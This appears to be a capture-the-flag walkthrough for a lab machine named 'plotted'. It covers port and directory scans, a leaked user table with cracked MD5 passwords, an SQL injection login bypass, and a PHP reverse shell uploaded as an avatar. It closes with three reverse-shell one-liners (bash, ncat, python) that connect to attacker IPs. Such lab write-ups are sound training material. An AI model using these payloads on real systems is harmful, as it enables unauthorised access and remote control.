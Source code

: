nmap scan
```
port 22 - ssh
port 80 - http
port 445 - http
```

gobuster (port 80)
```
/admin -> red herring
/passwd -> red herring
/shadow -> red herring
```

next time gobuster scan port 445.
found /management
`oretnom23` as possible creds


http://10.10.227.233:445/management/database/traffic_offense_db.sql
```
INSERT INTO `users` (`id`, `firstname`, `lastname`, `username`, `password`, `avatar`, `last_login`, `type`, `date_added`, `date_updated`) VALUES
(1, 'Adminstrator', 'Admin', 'admin', '0192023a7bbd73250516f069df18b500', 'uploads/1624240500_avatar.png', NULL, 1, '2021-01-20 14:02:37', '2021-06-21 09:55:07'),
(9, 'John', 'Smith', 'jsmith', '1254737c076cf867dc53d60a0364f38e', 'uploads/1629336240_avatar.jpg', NULL, 2, '2021-08-19 09:24:25', NULL);
```
hashes were identified to be MD5 so we cracked them with hashcat
```
0192023a7bbd73250516f069df18b500:admin123                 
1254737c076cf867dc53d60a0364f38e:jsmith123  
```

creds
`admin:admin123`
`jsmith:jsmith123`



```
└─$ goCommon http://10.10.227.233:445/management/
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.227.233:445/management/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,html,js
[+] Timeout:                 10s
===============================================================
2022/09/25 12:46:42 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 279]
/.htaccess.js         (Status: 403) [Size: 279]
/.hta.html            (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/.htaccess.php        (Status: 403) [Size: 279]
/.hta.js              (Status: 403) [Size: 279]
/.htpasswd.php        (Status: 403) [Size: 279]
/.htaccess.txt        (Status: 403) [Size: 279]
/.hta.php             (Status: 403) [Size: 279]
/.htpasswd.txt        (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/.hta.txt             (Status: 403) [Size: 279]
/.htpasswd.html       (Status: 403) [Size: 279]
/.htaccess.html       (Status: 403) [Size: 279]
/.htpasswd.js         (Status: 403) [Size: 279]
/404.html             (Status: 200) [Size: 198]
/about.html           (Status: 200) [Size: 1836]
/admin                (Status: 301) [Size: 330] [--> http://10.10.227.233:445/management/admin/]
/assets               (Status: 301) [Size: 331] [--> http://10.10.227.233:445/management/assets/]
/build                (Status: 301) [Size: 330] [--> http://10.10.227.233:445/management/build/] 
/classes              (Status: 301) [Size: 332] [--> http://10.10.227.233:445/management/classes/]
/config.php           (Status: 200) [Size: 0]                                                     
/database             (Status: 301) [Size: 333] [--> http://10.10.227.233:445/management/database/]
/dist                 (Status: 301) [Size: 329] [--> http://10.10.227.233:445/management/dist/]    
/home.php             (Status: 500) [Size: 229]                                                    
/inc                  (Status: 301) [Size: 328] [--> http://10.10.227.233:445/management/inc/]     
/index.php            (Status: 200) [Size: 14506]                                                  
/index.php            (Status: 200) [Size: 14506]                                                  
/libs                 (Status: 301) [Size: 329] [--> http://10.10.227.233:445/management/libs/]    
/pages                (Status: 301) [Size: 330] [--> http://10.10.227.233:445/management/pages/]   
/plugins              (Status: 301) [Size: 332] [--> http://10.10.227.233:445/management/plugins/] 
/uploads              (Status: 301) [Size: 332] [--> http://10.10.227.233:445/management/uploads/] 

```

Basic SQL injection to login as admin on site
`admin' or '1'='1' #`


Was able to upload a reverse-shell.php file into the user's avatar field to get a reverse shell

```
www-data@plotted:/var/www/scripts$ ls -la
total 12
drwxr-xr-x 2 www-data   www-data   4096 Oct 28  2021 .
drwxr-xr-x 4 root       root       4096 Oct 28  2021 ..
-rwxrwxr-- 1 plot_admin plot_admin  141 Oct 28  2021 backup.sh
www-data@plotted:/var/www/scripts$ rm backup.sh
rm: remove write-protected regular file 'backup.sh'? yes

```

`0<&196;exec 196<>/dev/tcp/10.13.46.127/1112; sh <&196 >&196 2>&196`
`ncat 10.13.46.127 1112 -e /bin/bash`
"python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'"
